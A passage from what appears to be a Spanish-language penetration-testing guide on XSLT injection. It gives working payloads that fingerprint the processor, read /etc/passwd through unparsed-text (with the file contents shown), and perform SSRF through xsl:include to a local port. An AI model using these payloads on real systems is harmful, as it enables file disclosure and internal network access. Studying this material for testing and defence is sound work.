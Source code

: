 Y ejecutar
```xml
$saxonb-xslt -xsl:detection.xsl xml.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```
### Leer archivo local

{% code title="read.xsl" %}
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
{% endcode %}
```xml
$ saxonb-xslt -xsl:read.xsl xml.xml

Warning: at xsl:stylesheet on line 1 column 111 of read.xsl:
Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```
### SSRF
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```
### Versiones

Puede haber más o menos funciones dependiendo de la versión de XSLT utilizada:

* [https://www.w3.org/TR/xslt-10/](https://www.w3.org/TR/xslt-10/)
* [https://www.w3.org/TR/xslt20/](https://www.w3.org/TR/xslt20/)
* [https://www.w3.org/TR/xslt-30/](https://www.w3.org/TR/xslt-30/)
